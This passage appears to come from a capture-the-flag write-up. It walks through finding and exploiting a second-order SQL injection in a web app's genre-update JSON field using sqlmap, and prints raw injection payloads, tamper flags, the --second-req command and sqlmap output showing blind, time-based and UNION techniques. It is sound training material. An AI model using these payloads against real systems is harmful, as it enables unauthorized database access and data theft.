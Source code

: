 This was when I got stuck.

### 2nd Order SQL Injection --> API Login

The only point of weakness seems to be that 'Genre' updating feature, so I went straight into that. When viewing the payload used my `sqlmap`, I realised it was being sent without the spaces accounted for:

{% code overflow="wrap" %}
```
{"genres":"food,travel,nature')ORROW(3888,4310)>(SELECTCOUNT(*),CONCAT(0x71787a7a71,(SELECT(ELT(3888=3888,1))),0x71626a6b71,FLOOR(RAND(0)*2))xFROM(SELECT2102UNIONSELECT1050UNIONSELECT3584UNIONSELECT2456)aGROUPBYx)AND('PEfz'LIKE'PEfz"}
```
{% endcode %}

To resolve this, I used the `--tamper=space2plus` flag. While the `sqlmap` ran, I checked the other parts of the website. If we attempt to view the `/feed`, there is a weird error response captured:

<figure><img src="../../.gitbook/assets/image (26) (1) (4).png" alt=""><figcaption></figcaption></figure>

This normally didn't happen because requests to this would return images with their IDs. This highlights that the injection results might only be viewable when we send a request here instead, thus making the website potentially vulnerable to 2nd order SQL Injection:

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap" %}

`sqlmap` has the flag `--second-req` to test this. I also noticed that the SQL Injections were still failing, so I tried different tampers such as `space2comment` instead, and it worked!

```
$ sqlmap -r req --tamper=space2comment --batch --second-req req2
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: {"genres":"food,travel,nature') AND 1039=1039 AND ('IkOG'='IkOG"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"food,travel,nature') AND (SELECT 6642 FROM (SELECT(SLEEP(5)))gerB) AND ('DLAJ'='DLAJ"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 7 columns
```